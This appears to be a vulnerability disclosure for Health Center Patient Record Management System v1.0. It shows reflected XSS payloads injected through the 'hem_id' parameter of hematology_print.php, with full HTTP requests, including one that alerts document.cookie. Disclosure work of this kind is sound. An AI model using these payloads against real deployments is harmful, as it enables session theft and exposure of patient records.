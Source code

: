 # Health Center Patient Record Management System v1.0 has Cross-site scripting (reflected)

BUG_Author: yuuuhd

Website source address：https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

Vulnerability File: /HCPMS/hematology_print.php

Parameter "hem_id" (GET), exists XSS vulnerability

Payload1:hem_id=1"><script>alert(111)</script>

```
GET /HCPMS/hematology_print.php?hem_id=1%22%3E%3Cscript%3Ealert(111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/Yuuuhd/bug_report/blob/main/picture/YYhhdddd1.png)

Payload2:hem_id=1"><script>alert(document.cookie)</script>

```
GET /HCPMS/hematology_print.php?hem_id=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6gh0ncq95da9emv5nuqu2qf4rh
Connection: close
```

![image](https://github.com/Yuuuhd/bug_report/blob/main/picture/YYhhdddd2.png)
